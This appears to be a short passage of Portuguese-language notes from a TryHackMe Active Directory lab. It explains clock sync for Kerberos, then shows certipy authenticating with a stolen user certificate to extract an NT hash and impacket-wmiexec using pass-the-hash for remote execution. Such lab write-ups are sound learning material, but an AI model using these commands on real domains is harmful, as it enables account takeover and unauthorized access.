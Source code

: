 `sudo ntpdate -u thm.local`
![](attachment/1d68ed9f8db1a2aafccb450d833a386e.png)
- **`ntpdate`**: ferramenta para sincronizar o relógio do seu sistema com o de um servidor remoto.
- **`-u`**: força o uso de **UDP** (importante quando o firewall bloqueia portas NTP tradicionais).
- **`thm.local`**: nome (ou IP) do servidor que fornece a hora — no seu caso, o **Domain Controller**.

**Por que isso é importante no AD/Kerberos?**
- O **Kerberos é extremamente sensível ao tempo**.
- Se a diferença de horário entre o seu sistema e o DC for maior que **5 minutos**, **TGTs (tickets) serão recusados**.
- Esse erro comum é `KRB_AP_ERR_SKEW`.


`certipy auth -pfx bradley_ortiz.pfx -domain thm.local -dc-ip 10.10.1.34`
![](attachment/6864417bcae25605c7e86e0b7c3e478c.png)
Extraindo o hash NT para o usuário


`impacket-wmiexec -hashes :16ec31963c93240962b7e60fd97b495d THM.LOCAL/bradley_ortiz@labyrinth.thm.local`
![](attachment/54933cf3c5b4bd588017bce47c75ce0b.png)
